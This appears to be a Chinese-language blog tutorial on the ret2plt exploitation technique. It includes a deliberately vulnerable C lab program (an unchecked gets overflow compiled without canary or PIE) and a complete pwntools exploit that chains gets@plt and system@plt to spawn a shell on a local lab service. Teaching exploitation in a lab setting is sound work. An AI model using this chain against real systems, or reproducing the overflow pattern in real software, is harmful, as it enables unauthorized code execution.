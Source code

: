```yaml
---
title: "Day15－ret2plt"
date: 2024-09-15
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

昨天剛學完神奇的 one gadgets，今天我們將回到 PLT 表，介紹 ret2plt 的攻擊手法。如果沒有足夠的 gadgets 可供使用，並且無法 leak libc，我們可以將目標轉向 PLT。這種技巧通常被稱為 ret2plt。

## ret2plt

顧名思義，ret2plt 就是將執行流程返回到 PLT 表上。那麼，為什麼這樣做可以取得 shell 呢？我們先來看幾個例子：

- `write(1, "ret2plt", 7)` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image1.png)

- `puts("ret2plt")` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image2.png)

這些例子中，實際上都是輸出 "ret2plt" 這個字串。如果有可以利用的 PLT 表，就可以用更短的 chain 完成，而不需要尋找過多可用的 gadgets。類似的：

- `system("/bin/sh")` 在 stack 上的狀況會是：

![image](/images/iron2024/day15_image3.png)

這代表我們可以先透過 `gets` 或其他可以寫入的 PLT 將資料寫進可寫區域，然後把該區域當作 `system@plt` 的參數，這樣就可以將 `/bin/sh` 或 `sh` 寫入並呼叫 `system@plt`。如此一來，便能開啟 shell。

簡單來說，ret2plt 是透過 binary 中已有的函數，先準備好參數，然後直接呼叫這些函數來達成攻擊目的。即使在無法 leak libc 的情況下，也能透過返回 PLT 表來使用該函數，這就是 ret2plt。

## Lab

查看以下程式碼：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    system("echo 'Welcome to challenge!'");
    printf("Leave a message: ");
    gets(message);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2plt.c -o ./ret2plt/share/ret2plt -fno-stack-protector -no-pie
```

你可以自行嘗試這個題目，或繼續閱讀以下解題步驟。

## Writeup

首先，程式在一開始使用了 `system` 來 echo 一段文字，這代表程式編譯時會有 `system@plt`。同時，程式也使用了 `gets`，這使得我們可以進行 buffer overflow 並輸入資料。題目中也沒有 Canary 和 PIE，符合我們進行 ret2plt 的條件。接下來，我們只需要確認以下資訊即可開始撰寫 exploit：

- 可以將資料寫在哪個位置
- 如何疊加 chain

首先，使用 GDB 查看可以寫入的區域。我們可以先執行 `gdb ./ret2plt`，然後設置中斷點 `b main`，執行 `r`，再使用 `vmmap` 查看程式的記憶體區塊。會發現 0x404000~0x405000 之間是可寫的區域。接著，我們可以從後面開始檢查，如 `x/10gx 0x405000-0x100`，發現這些地方沒有被寫入。因此，我們可以選擇 0x404f00 作為寫入位置。

![image](/images/iron2024/day15_image4.png)

![image](/images/iron2024/day15_image5.png)

接著，我們需要使用 `pop rdi` 將要輸入的位置傳遞給 `gets`，這可以透過 `ROPgadget --binary ret2plt | grep "pop rdi"` 找到。我們發現 0x40115a 是 `pop rdi; ret`。

![image](/images/iron2024/day15_image6.png)

接著，使用 `objdump` 查看 `gets@plt` 和 `system@plt` 的地址，輸入 `objdump -M intel -d ret2plt`。結果顯示 `gets@plt` 在 0x401050，`system@plt` 在 0x401030。同時，我們還要確認 padding 的大小，發現輸入會從 `rbp-0x10` 開始，因此 padding 是 `0x10+0x8=0x18`。

![image](/images/iron2024/day15_image7.png)

![image](/images/iron2024/day15_image8.png)

![image](/images/iron2024/day15_image9.png)

資訊確認完畢後，我們可以開始撰寫 exploit。

完整 exploit：

```python
from pwn import *

# r = process('../ret2plt/share/ret2plt')
r = remote('127.0.0.1', 10007)

pop_rdi = 0x000000000040115a
gets_plt = 0x401050
system_plt = 0x401030
bss = 0x404f00

payload = b"A" * (0x10 + 0x8) + p64(pop_rdi) + p64(bss) + p64(gets_plt) + p64(pop_rdi) + p64(bss) + p64(system_plt)

r.sendlineafter(b"Leave a message: ", payload)
r.sendline(b"/bin/sh")
r.interactive()
```

簡單來說，就是透過 `pop rdi; ret` 和 `gets@plt` 將 `/bin/sh` 寫入到 BSS 段，接著再使用 `pop rdi; ret` 將 BSS 段的資料傳遞給 `system@plt`，以此開啟 shell。

solve！！

![image](/images/iron2024/day15_image10.png)
